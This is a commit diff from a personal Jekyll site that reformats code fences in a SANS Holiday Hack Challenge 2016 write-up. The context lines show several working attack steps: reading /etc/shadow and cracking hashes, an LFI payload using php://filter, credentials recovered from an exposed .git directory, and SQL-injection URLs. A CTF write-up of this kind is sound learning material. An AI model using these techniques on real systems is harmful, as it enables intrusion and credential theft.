

Before and after one commit to Mercurii7/mercurii7.github.com, a Jekyll site: the page built from _posts/2017-01-04-2016-sans-holiday-hack-challenge-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1733 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add new line after and before code fence to fix syntax highlighting

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -16,3 +16,4 @@ twitter_username: MercurialSec
 
 # Build settings
 markdown: kramdown
+highlighter: rouge
--- a/_posts/2017-01-04-2016-sans-holiday-hack-challenge-writeup.md
+++ b/_posts/2017-01-04-2016-sans-holiday-hack-challenge-writeup.md
@@ -28,7 +28,8 @@ An APK file is inside the ZIP file and it is password protected. Using the secre
 ### 3) What username and password are embedded in the APK file?
 
 Using apktool, the APK was decompiled. A simple grep of all .smali files reveals a username and password in the b.smali and SplashScreen.smali
-```
+
+``` bash
 $ grep 'password' *
 b.smali:    const-string v1, "password"
 Login$3$1$1.smali:    const-string v1, "We\'ve sent you an email to reset your password!"
@@ -67,7 +68,8 @@ The file was found in SantaGram_4.2/res/raw
 ### 5) What is the password for the "cranpi" account on the Cranberry Pi system?
 
 Gather information on the partitions available in the cranbian image.
-```
+
+``` bash
 root@6333f0f60bf6:~/hhc$ fdisk -l cranbian-jessie.img
 
 Disk cranbian-jessie.img: 1.3 GiB, 1389363200 bytes, 2713600 sectors
@@ -83,7 +85,8 @@ cranbian-jessie.img2      137216 2713599 2576384  1.2G 83 Linux
 ```
 
 Extract the second partition using dd to obtain an ext4 image and mount it. fsck was required before it would let me mount the image.
-```
+
+``` bash
 $ dd bs=70254592 if=cranbian-jessie.img of=cranbian-ext skip=1
 $ losetup /dev/loop2 cranbian-ext
 $ fsck /dev/loop2
@@ -92,7 +95,7 @@ $ mount /dev/loop2 /mnt/
 
 Grab the /etc/passwd and /etc/shadow file.
 
-```
+``` bash
 root@6587a3e5f040:/mnt/etc# cat passwd
 root:x:0:0:root:/root:/bin/bash
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
@@ -158,7 +161,6 @@ Crack the password of the cranpi account using hashcat and the wordlist from a h
 
 {% include image name="minty-candycane.png" caption="Minty Candycane: RockYou password list" %}
 
-
 ```
 > E:\Tools\hashcat-3.20\hashcat64.exe -m 1800 -a 0 "Part 3\hash.txt" E:\Tools\hashcat-3.20\wordlists\rockyou.txt
 
@@ -179,7 +181,7 @@ Santa was found in DFER in 1978 (The terminal door with the wumpus game, after g
 
 Scratchy was a tricky terminal. The trick lies in the commands `sudo` and `strings`.
 
-```
+``` bash
 scratchy@cbbeb93495e5:/$ sudo -l
 sudo: unable to resolve host cbbeb93495e5
 Matching Defaults entries for scratchy on cbbeb93495e5:
@@ -191,7 +193,8 @@ User scratchy may run the following commands on cbbeb93495e5:
 ```
 
 Part 1:
-```
+
+``` bash
 scratchy@8956a10a16f1:/$ sudo -u itchy strings /out.pcap
 ...snip...
 <input type="hidden" name="part1" value="santasli" />
@@ -199,7 +202,8 @@ scratchy@8956a10a16f1:/$ sudo -u itchy strings /out.pcap
 ```
 
 Part 2:
-```
+
+``` bash
 scratchy@b5d698c4390e:/$ sudo -u itchy strings -e l /out.pcap
 sudo: unable to resolve host b5d698c4390e
 part2:ttlehelper
@@ -246,7 +250,7 @@ Key: LOOK AT THE PRETTY LIGHTS
 
 A simple `find` will locate the key for the door.
 
-```
+``` bash
 elf@a7ba94688298:~$ find . -type f
 ./.bashrc
 ./.doormat/. / /\/\\/Don't Look Here!/You are persistent, aren't you?/'/key_for_the_door.txt
@@ -270,12 +274,14 @@ Key: open_sesame
 **Cheat:**
 
 1. Hex dump wumpus to extract binary to my own machine
-```
+
+``` bash
 $ od -A x -t x1 -v wumpus
 ```
 
 2. Patch the 'shoot' function: `jne to je`
 Modified assembly instructions:
+
 ```
 0x0040177c      0f847e020000   je 0x401a00
 0x00401a0a      740f           je 0x401a1b
@@ -318,7 +324,7 @@ We'll first start with NMAP on dungeon.northpolewonderland.com
 
 NMAP discovered port: Discovered open port 11111/tcp on 35.184.47.139
 
-```
+``` bash
 $ nc dungeon.northpolewonderland.com 11111
 Welcome to Dungeon.                     This version created 11-MAR-78.
 You are in an open field west of a big white house with a boarded
@@ -335,7 +341,7 @@ There's an elf that mentioned having an old version of the dungeon game, which I
 
 I searched around for walkthroughs or hints on playing the game. Here's how you can get the instructions for this version of the game:
 
-```
+``` bash
 Welcome to Dungeon.                     This version created 11-MAR-78.
 You are in an open field west of a big white house with a boarded
 front door.
@@ -364,7 +370,8 @@ There are several commands available to the [GDT](http://gunkies.org/wiki/Zork_h
 - TK allows you to take any item in the game
 
 I created a python script to generate the steps to travel to all possible rooms in the game (from 1 to 255):
-```python
+
+``` python
 for room_num in range(1,255):
 	print 'GDT'
 	print 'AH'
@@ -374,12 +381,14 @@ for room_num in range(1,255):
 ```
 
 Fed the generated steps into the game:
-```
+
+``` bash
 $ python steps_generator.py
 $ ./dungeon < steps_generator.py
 ```
 
 Discovered the room 191 and 192, the north pole:
+
 ```
 >GDT
 GDT>AH
@@ -401,6 +410,7 @@ The elf is facing you keeping his back warmed by the fire.
 ```
 
 Seems like the elf wants something from us. Using the same method I got a list of all items in game and found that the elf wanted the gold card. Replicating this in the online version:
+
 ```
 >GDT
 GDT>TK
@@ -424,7 +434,7 @@ To get the POST request body for this challenge, I installed and played with the
 
 The request should look something like :
 
-```http
+``` http
 POST /index.php HTTP/1.1
 Content-Type: application/json
 User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; GT-N7100 Build/MOB30Z)
@@ -438,7 +448,7 @@ Content-Length: 161
 
 And the response like this:
 
-```json
+``` json
 {
     "date": "20161218131022",
     "request": {
@@ -458,7 +468,7 @@ And the response like this:
 
 Notice the *verbose* parameter and its value *false*, what would happen if we were to add that parameter to our request and change the value to true?
 
-```http
+``` http
 POST /index.php HTTP/1.1
 Content-Type: application/json
 User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; GT-N7100 Build/MOB30Z)
@@ -472,7 +482,7 @@ Content-Length: 161
 
 Response:
 
-```json
+``` json
 {
     "date": "20161218131022",
     "request": {
@@ -504,7 +514,8 @@ Response:
 ```
 
 Now just download the mp3 file:
-```
+
+``` bash
 $ wget http://dev.northpolewonderland.com/debug-20161224235959-0.mp3
 ```
 
@@ -535,7 +546,7 @@ The `crashdump` parameter in `ReadCrashDump` is vulnerable to PHP local file inc
 
 We can view the source of the exception.php page by making the following request:
 
-```http
+``` http
 POST /exception.php HTTP/1.1
 Content-Type: application/json
 User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; GT-N7100 Build/MOB30Z)
@@ -549,11 +560,12 @@ Content-Length: 106
 
 Or in curl:
 
-```
+``` bash
 curl -s -k -X $'POST' -H $'Content-Type: application/json' -H $'User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; GT-N7100 Build/MOB30Z)' --data-binary $'{\"operation\":\"ReadCrashDump\",\"data\":{\"crashdump\":\"php://filter/convert.base64-encode/resource=exception\"}}' $'http://ex.northpolewonderland.com/exception.php' | base64 -d
 ```
 
 Response:
+
 ``` php
 <?php
 
@@ -569,7 +581,8 @@ if(strcasecmp($_SERVER['REQUEST_METHOD'], 'POST') != 0){
 ```
 
 Download the audio file:
-```
+
+``` bash
 $ wget http://ex.northpolewonderland.com/discombobulated-audio-6-XyzE3N9YqKNH.mp3
 ```
 
@@ -582,7 +595,8 @@ Found `.git` directory: https://analytics.northpolewonderland.com/.git/ after ru
 Install [DVCS-Pillage](https://github.com/evilpacket/DVCS-Pillage) and clone the `.git` directory.
 
 Found 'administrator' credentials:
-```
+
+``` bash
 $ git log
 commit 62547860f9a6e0f3a3bdfd3f9b14fea3ac7f7c31
 Author: me <me@example.org>
@@ -591,7 +605,7 @@ Date:   Mon Nov 21 21:15:08 2016 -0800
 	Fix database dump
 ```
 
-```
+``` bash
 $ git diff-tree -p 62547860f9a6e0f3a3bdfd3f9b14fea3ac7f7c31
 ...snip...
 -INSERT INTO `users` VALUES (0,'administrator','KeepWatchingTheSkies'),(1,'guest','busyllama67');
@@ -605,15 +619,16 @@ Digging through the source code obtained from the downloaded git repository, the
 The Query (query.php) page is used to query reports with an optional feature to save the reports.
 
 query.php
-```php
-    $query = "SELECT * ";
-    $query .= "FROM `app_" . $type . "_reports` ";
-    $query .= "WHERE " . join(' AND ', $where) . " ";
-    $query .= "LIMIT 0, 100";
-	...snip...
-    $result = mysqli_query($db, "INSERT INTO `reports`
-       (`id`, `name`, `description`, `query`)
-	...snip...
+
+``` php
+$query = "SELECT * ";
+$query .= "FROM `app_" . $type . "_reports` ";
+$query .= "WHERE " . join(' AND ', $where) . " ";
+$query .= "LIMIT 0, 100";
+...snip...
+$result = mysqli_query($db, "INSERT INTO `reports`
+   (`id`, `name`, `description`, `query`)
+...snip...
 ```
 
 Looking at the *insert* statement, there are 3 columns: name, description and query. Query stores the *select* statement used for querying the report.
@@ -623,7 +638,8 @@ Looking at the *insert* statement, there are 3 columns: name, description and qu
 Now the Edit page allows one to edit the details of an existing report.
 
 edit.php
-```php
+
+``` php
     $result = mysqli_query($db, "SELECT * FROM `reports` WHERE `id`='" . mysqli_real_escape_string($db, $_GET['id']) . "' LIMIT 0, 1");
     if(!$result) {
       reply(500, "MySQL Error: " . mysqli_error($db));
@@ -645,11 +661,13 @@ edit.php
 The code goes through and updates each column of the *reports* table if the corresponding name and value is found in the GET request.
 
 Here's an example of the default request to edit.php after clicking on 'Edit'
+
 ```
 https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=
 ```
 
 We can modify the value of the 'query' column of the existing report by adding a `query` parameter and value:
+
 ```
 https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=&query=SELECT%20*%20FROM%20`audio`
 ```
@@ -659,21 +677,25 @@ This will let us perform a 'sql injection' attack by querying any data we want b
 Here's how I solved this challenge:
 
 1. Edit the a report's query to view the rows in the *audio* table
+
 ```
 https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=&query=SELECT%20*%20FROM%20`audio`
 ```
 
 2. Now view the report
+
 ```
 https://analytics.northpolewonderland.com/view.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029
 ```
 
 3. To download the mp3, I used the `TO_BASE64()` function
+
 ```
 https://analytics.northpolewonderland.com/edit.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029&name=&description=&query=SELECT%20TO_BASE64(mp3)%20FROM%20`audio`%20limit%201,%201
 ```
 
 4. View and copy base64 of mp3 from the website, then decode the base64 and save the mp3 file
+
 ```
 https://analytics.northpolewonderland.com/view.php?id=cca9e991-b986-4cb0-9df8-498fbe0e3029
 ```
````
